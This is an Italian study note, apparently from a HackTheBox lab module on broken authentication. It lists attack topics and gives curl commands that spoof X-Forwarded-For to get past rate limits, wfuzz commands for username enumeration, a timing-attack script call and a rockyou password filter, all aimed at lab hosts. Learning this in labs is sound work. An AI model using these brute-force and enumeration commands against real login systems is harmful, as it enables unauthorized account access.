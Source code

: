 # Argomenti 
- Default Credentials
- Weak Bruteforce Protections
- Brute Forcing Usernames
- Brute Forcing Passwords
- Predictable Reset Token
- Authentication Credentials Handling
- Guessable Answers
- Username Injection
- Brute Forcing Cookies
- Insecure Token Handling 

# Credenziali di default
e' sempre bene controllare credenziali di default del software con cui stiamo interagento. su internet di trovano.

# Brute force

I meccanismi di sicurezza contro il bruteforce sono:
- CAPTCHA
- Rate limits


curl 'http://138.68.153.165:30919/question2/' -X POST -H 'X-Forwarded-For: 1.2.3.4' --data-raw 'userid=s&passwd=s&submit=submit'

curl 'http://138.68.153.165:30919/question2/' -X POST -H 'X-Forwarded-For: 127.0.0.1' --data-raw 'userid=aaa&passwd=aaa&submit=submit'

## Trovare lo username

bruteforce dello username basata sulla risposta della pagina 
```shell
$ wfuzz -c -z file,/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -d "Username=FUZZ&Password=dummypass" --hs "Unknown username" http://brokenauthentication.hackthebox.eu/user_unknown.php

$ wfuzz -c -z file,/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt  --hs "Invalid username." http://138.68.153.165:31141/question1/?Username=FUZZ&Password=asas
```



attacco timing
```shell
$ python3 timing.py /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt
```

si puo' fare enumerazione basandosi sui messaggi di risposta del server quando si prova a fare la login o il reset della passeword. 

## trovare la password

esempio di filtri su rokyou usando la policy eventualmente trovata

```shell
$ grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep -E '^.{8,12}$'
```
